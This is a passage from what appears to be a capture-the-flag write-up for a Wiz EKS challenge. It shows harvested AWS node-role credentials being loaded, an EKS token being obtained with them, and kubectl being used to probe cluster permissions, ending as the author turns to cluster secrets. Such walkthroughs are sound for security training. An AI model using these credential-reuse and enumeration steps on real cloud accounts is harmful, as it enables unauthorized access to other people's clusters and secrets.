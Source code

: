```bash
> [default]
> aws_access_key_id = ASIA2AVYNEVM2STWPOMB
> aws_secret_access_key = BY4ToDWNJniAbLyYzou...
> aws_session_token = FwoGZXIvYXdzECYaDNjSr8orzSsKmTYNbCK3AV9V7Vum3ITD7/...
> EOF
root@wiz-eks-challenge:~# aws sts get-caller-identity
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0bd90a7fe60cdb9f7",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0bd90a7fe60cdb9f7"
}
```
Great! The credentials are obtained. Now, for the next step. With the help of retreived IAM role we can try to get EKS authorization token.
```bash
root@wiz-eks-challenge:~# aws eks get-token --cluster-name eks-challenge-cluster
{
    "kind": "ExecCredential",
    "apiVersion": "client.authentication.k8s.io/v1beta1",
    "spec": {},
    "status": {
        "expirationTimestamp": "2025-09-05T20:57:45Z",
        "token": "k8s-aws-v1.aHR0cHM6Ly9zdHMudXMtd2VzdC0xLmFt..."
    }
}
```
All right, the token is here. Let's see what we have available.
```bash
root@wiz-eks-challenge:~# TOKEN=$(aws eks get-token --cluster-name=eks-challenge-cluster | jq '.status.token' | sed "s/\"//g")
root@wiz-eks-challenge:~# kubectl --token=$TOKEN get pods
No resources found in challenge4 namespace.
root@wiz-eks-challenge:~# kubectl --token=$TOKEN get all
Error from server (Forbidden): replicationcontrollers is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "replicationcontrollers" in API group "" in the namespace "challenge4"
Error from server (Forbidden): services is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "services" in API group "" in the namespace "challenge4"
Error from server (Forbidden): daemonsets.apps is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "daemonsets" in API group "apps" in the namespace "challenge4"
Error from server (Forbidden): deployments.apps is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "deployments" in API group "apps" in the namespace "challenge4"
Error from server (Forbidden): replicasets.apps is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "replicasets" in API group "apps" in the namespace "challenge4"
Error from server (Forbidden): statefulsets.apps is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "statefulsets" in API group "apps" in the namespace "challenge4"
Error from server (Forbidden): horizontalpodautoscalers.autoscaling is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "horizontalpodautoscalers" in API group "autoscaling" in the namespace "challenge4"
Error from server (Forbidden): cronjobs.batch is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "cronjobs" in API group "batch" in the namespace "challenge4"
Error from server (Forbidden): jobs.batch is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot list resource "jobs" in API group "batch" in the namespace "challenge4"
```
Not so much available. Oh well, let's try to access the basic secret stuff.
```bash
```